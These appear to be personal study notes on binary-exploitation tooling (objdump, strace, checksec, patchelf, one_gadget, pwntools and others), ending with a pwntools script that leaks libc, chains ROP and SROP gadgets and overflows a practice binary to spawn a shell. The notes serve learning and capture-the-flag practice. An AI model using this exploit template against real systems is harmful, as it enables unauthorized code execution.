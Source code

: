 1. ldd
	1. display shared libraries loaded by programs
2. objdump
	1. usually used as `objdump -M intel -d ./hello`
	2. This will disassemble it
	3. `-j .plt` to display plt section
3. strings
	1. Used to find strings in binaries
4. strace
	1. Used for tracing syscalls
	2. `-e trace=write` for tracing specific syscalls
5. checksec
	1. Checks the status of different security mitigations
	2. eg. `checksec --file=./hello`
6. libc-database
	1. Useful for finding the libc versions to get their offset
	2. Go to folder libc-database and run `./get kali`
	3. Better to use: https://libc.blukat.me
7. patchelf
	1. Used to change the interpreter of the program
	2. Also set the rpath
	3. example: `patchelf --set-interpreter ./lib/my-ld.so --set-rpath ./lib hello`
8. one_gadget
	1. Useful for finding areas of code for `execve("/bin/sh", NULL, NULL)`
	2. eg: `one_gadget /lib/x86_64-linux-gnu/libc.so.6`
9. Ropper: page 64 of GrayHatHacking
10. pwntools
	1. Used for exploit development
	2. example usage:
	   ```python
		#!/usr/bin/env python3
		from pwn import *
		context.update(arch='amd64', os='linux')
		libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
		p = process("./leak-bof")
		l = log.progress("Stage 1: leak printf and calculate libc's base address")
		p.readuntil("I'm leaking printf: ")
		libc.address = int(p.readline(), 16) - libc.sym['printf']
		l.success(f"0x{libc.address:x}")
		rop = ROP(libc)
		l = log.progress("Stage 2: pop a shell with ROP + SROP payload")
		rop.raw(rop.find_gadget(['pop rax', 'ret']).address)
		rop.raw(constants.SYS_rt_sigreturn)
		rop.raw(rop.syscall.address)
		# build SROP frame
		frame = SigreturnFrame(kernel="amd64", arch="amd64")
		frame.rax = constants.SYS_execve
		frame.rdi = next(libc.search(b"/bin/sh"))
		frame.rsi = 0
		frame.rdx = 0
		frame.rip = rop.syscall.address
		# send stack smash and payload
		p.sendlineafter(": ", b"A"*136 + rop.chain() + bytes(frame))
		l.success('Enjoy!')
		p.interactive()
```
	3. This is why you used in ret2systems demo